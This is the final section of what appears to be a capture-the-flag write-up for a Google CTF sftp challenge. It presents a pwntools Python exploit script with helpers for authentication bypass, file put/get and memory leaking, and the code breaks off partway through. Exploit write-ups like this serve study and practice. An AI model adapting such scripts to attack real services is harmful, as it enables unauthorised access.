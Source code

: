 ## The Finished Article

All right, we have covered everything, finally here is the working exploit code with plenty of comments to boot.

```python
#!/usr/bin/env python
from pwn import *
import time, struct

def auth():
	print p.recvuntil("? ")
	p.send("yes")
	print p.recvuntil(": ")
	p.send("%H$I%H%I%I%I$I\n")
	print p.recvuntil("sftp.google.ctf.\n")
	print p.recvuntil("sftp> ")

def exit():
	p.sendline("exit")

def bye():
	p.sendline("bye")

def put(path, value):
	buf = "put %s" % path
	buf = buf.ljust(8201) #original length. That's how I can avoid sending "\n" w/o time
	p.send(buf) #ez mar jo
	p.send(str(len(value)).ljust(15))
	p.send(value)
	b = p.recvuntil("sftp> ")

def get(path):
	cmd = "get %s" % path
	p.sendline(cmd)
	print "Size received:"
	print p.recvuntil("\n")	#until the size
	print "Rest received:"
	print p.recvuntil("sftp> ")

def get_leak(path):
	cmd = "get %s" % path
	p.sendline(cmd)
	b = p.recvuntil("sftp> ")
	return b

def pwd():
	p.sendline("pwd")
	print p.recvuntil("sftp> ")

def cd(path):
	p.sendline("cd %s" % path)
	print p.recvuntil("sftp> ")

def ls(path = ""):
	if path == "":
		p.sendline("ls")
	else:
		p.sendline("ls %s" % path)
	print p.recvuntil("sftp> ") #ez nyilvan fos hogy ha utkozik a filenevvel..

def ls_get(path = ""):
	if path == "":
		p.sendline("ls")
```